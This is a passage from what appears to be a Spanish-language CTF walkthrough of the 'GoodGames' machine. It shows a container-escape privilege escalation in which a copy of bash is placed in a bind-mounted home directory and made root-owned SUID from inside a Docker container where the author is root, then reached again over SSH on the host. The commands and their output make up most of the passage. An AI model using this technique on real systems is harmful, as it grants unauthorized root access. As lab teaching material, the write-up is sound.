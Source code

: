 ```
    link/ether 02:42:7c:16:fe:f1 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
6: veth4724af8@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-99993f3f3b6b state UP group default 
    link/ether d2:b4:1d:48:a9:54 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::d0b4:1dff:fe48:a954/64 scope link 
       valid_lft forever preferred_lft forever
```

Bien, ha funcionado ahora estamos dentro de la máquina víctima.

Ahora, hay que pensar lo siguiente, tenemos una montura del directorio /home/augustus en el docker, y dentro del docker somos root, lo que podríamos hacer es lo siguiente:
```
augustus@GoodGames:~$ cp /bin/bash .
cp /bin/bash .
```
Copiamos la bash en el directorio /home/augustus y nos devolvemos al contenedor:
```
drwxr-xr-x 2 1000 1000    4096 Feb 16 18:14 .
drwxr-xr-x 1 root root    4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root       9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000     807 Oct 19  2021 .profile
-rwxr-xr-x 1 1000 1000 1234376 Feb 16 18:14 bash
-rw-r----- 1 root 1000      33 Feb 16 13:07 user.txt
```
Observamos que tenemos efectivamente la bash aquí pues es una montura, lo que haremos entonces será setearle como usuario root y hacerlo SUID:

```
root@3a453ab39d3d:/home/augustus# chown root:root bash

```
```
root@3a453ab39d3d:/home/augustus# chmod 4755 /bin/bash
chmod 4755 /bin/bash
root@3a453ab39d3d:/home/augustus# ls -la
ls -la
total 1232
drwxr-xr-x 2 1000 1000    4096 Feb 16 18:14 .
drwxr-xr-x 1 root root    4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root       9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000     807 Oct 19  2021 .profile
-rwsr-xr-x 1 root root 1234376 Feb 16 18:14 bash
-rw-r----- 1 root 1000      33 Feb 16 13:07 user.txt
```
Vemos que ahora es el propietario es root y es SUID, volvemos a conectarnos por ssh a la máquina víctima:
```
augustus@GoodGames:~$ ls -la
ls -la
total 1232
drwxr-xr-x 2 augustus augustus    4096 Feb 16 18:14 .
drwxr-xr-x 3 root     root        4096 Oct 19  2021 ..
-rwsr-xr-x 1 root     root     1234376 Feb 16 18:14 bash
lrwxrwxrwx 1 root     root           9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus     807 Oct 19  2021 .profile
-rw-r----- 1 root     augustus      33 Feb 16 13:07 user.txt
```